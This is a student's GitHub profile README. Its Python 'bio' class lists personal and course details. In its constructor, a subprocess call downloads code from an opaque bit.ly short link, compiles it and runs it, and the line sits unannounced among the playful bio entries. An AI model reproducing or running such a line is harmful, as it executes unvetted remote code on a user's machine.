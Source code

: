 <h1 align="center">Yo 👋, I'm John Errol Dela Rosa 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Monospace&size=16&pause=1000&color=36BCF7F7&center=true&vCenter=true&random=false&width=485&lines=Jep+is+trying+his+best.;This+is+a+placeholder.;You+wanna+know+how+I+got+these+scars%3F" alt="Jep is trying his best." />
</p>

```python
class JepxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/j3px21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🪪 Last name'                : 'Dela Rosa'
      '- 🙋‍♂️ You can call me'          : 'Jep',
      '- 🤷🏻‍♂️ What is this, nani'       : 'A GitHub repository dedicated to the CPE313 course',
      '- 🏡 I’m currently living in'  : 'Binangonan, Rizal',
      '- 🏫 I’m currently studying in': 'Technological Institute of the Philippines',
      '- 🌱 I’m currently pursuing'   : {'BSCpE' : 'Bachelor of Science in Computer Engineering'},

      '- 📓 Course code - title'      : {'CPE 313' : 'Advanced Machine Learning and Deep Learning'},
      '- 🎏 Section'                  : 'CPE32S8',
      '- 📊 Elective'                 : 'Data Science',
      '- 🏨 Hotel'                    : 'Trivago',
      '- ❔ I dont know'              : '¯\_(ツ)_/¯',
      '- 👨‍💻 My website project'       : 'https://blogs.mtdv.me/blog/posts/jepowo',

      '- 💧 Motto in life'            : ('Empty your mind, be formless. Shapeless, like water. If you put water'
                                            'into a cup, it becomes the cup. You put water into a bottle and it'
                                            'becomes the bottle. You put it in a teapot, it becomes the teapot.'
                                            'Now, water can flow or it can crash. Be water, my friend.'),
      '- ⚡ Fun fact'                : ('Did you know? That bungee gum possesses the properties of both rubber and gum')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(JepxZIMA().__dict__)
```
<br>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/NVIDIA_1650-76b900?style=for-the-badge&logo=nvidia&logoColor=%23fff" alt="NVIDIA 1650"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/RYZEN_7_4800H-ed1c24?style=for-the-badge&logo=amd&logoColor=%23fff&label=AMD&labelColor=%23555" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/LAPTOP-000?style=for-the-badge&logo=hp&logoColor=%23fff&label=HP&labelColor=%23555" alt="HP"></a>
  <a href="#"><img src="https://custom-icon-badges.demolab.com/badge/AKKO_3068B_PLUS-8071b3?style=for-the-badge&logo=akko-white"></a>
</p>
